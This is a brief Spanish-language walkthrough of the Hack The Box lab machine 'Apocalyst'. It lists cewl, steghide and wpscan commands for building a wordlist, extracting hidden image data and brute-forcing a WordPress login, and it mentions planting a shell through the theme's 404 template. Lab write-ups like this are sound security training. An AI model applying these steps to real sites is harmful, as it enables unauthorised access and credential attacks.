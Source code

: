 ```yaml
---
title: Apocalyst
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [cewl, steghide, wpscan, desunix]     # TAG names should always be lowercase
---
```


Cewl para hacer una lista con las palabras de una página web

```shell 
cewl -h diccionario.txt http://10.10.10.10
```

steghide para buscar información en una imagen
info - para saber si tiene información oculta
extract - extraer la información

```shell 
steghide info image.jpg
steghide extract -sf image.jpg 
```

wpscan para enumerar usuarios y hacer fuerza bruta a wp-login.php

```shell 
wpscan --url http://apocalyst.htb -U falaraki -P list.txt
```

Dentro de wordpress, en appareance y editor se puede modificar la plantilla para el código 404, así le introducimos una shell.


Para crear una contraseña DES(Unix) usamos openssl y podemos ver con hash-identifier para validarlo.

```shell 
openssl passwd 
Password: 
Verifying - Password: 
L2xa6K..ttsbM
```
